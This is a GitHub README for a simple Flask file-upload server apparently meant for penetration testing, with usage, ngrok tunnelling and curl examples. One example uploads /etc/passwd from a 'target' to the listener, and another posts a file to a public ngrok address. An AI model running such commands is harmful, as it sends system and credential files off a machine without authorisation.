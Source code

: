 # Uploader
Simple Flask App to Upload Files

Perfect for spinning up if needing to transfer files over via the command line or browser.
```python
python Uploader.py -h
usage: Uploader.py [-h] [-P PORT] [-H HOST] [--upload-folder UPLOAD_FOLDER]

Simple Flask File Uploader

options:
  -h, --help            show this help message and exit
  -P PORT, --port PORT  Port Number to listen On - Default 5000
  -H HOST, --host HOST  Interface to listen on - Default all
  --upload-folder UPLOAD_FOLDER
                        Upload file path - Default 'cwd'
```

Spins up a Flask App
```python
python Uploader.py -H 192.168.0.29 -P 8000 --upload-folder C:\Users\gd\Downloads
 * Serving Flask app 'Uploader'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://192.168.0.29:8000
Press CTRL+C to quit
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST / HTTP/1.1" 302 -
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST /done HTTP/1.1" 200 -
```

## In Browser
Can Upload and also Download Files to the Target if needed

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/30baa38a-1a2b-4d4d-a8cc-5909cbcbca1d)


## Command Line
```bash
curl -L -s -X POST -F "file=@/etc/passwd" http://192.168.0.29:8000
File uploaded!

curl -L -s -X POST -F "file=@ips.txt" https://854d-11-11-11-11.ngrok-free.app

```
## ngrok Setup if accessing over the Internet

```
python Uploader.py -H 127.0.0.1 -P 5000 --upload-folder C:\Uploader\Files

.\ngrok.exe http 5000 --basic-auth="gd:SuperPassword"
```

![ngrok](https://github.com/deeexcee-io/Uploader/assets/130473605/269b7883-4615-469a-b958-5b15cdc0d668)

Enter Creds and you're good

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/30baa38a-1a2b-4d4d-a8cc-5909cbcbca1d)

All FIles in the Current Directory will be Served and can be Downloaded if needed

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/48c4f295-e82b-4229-8725-a32b40a7af45)




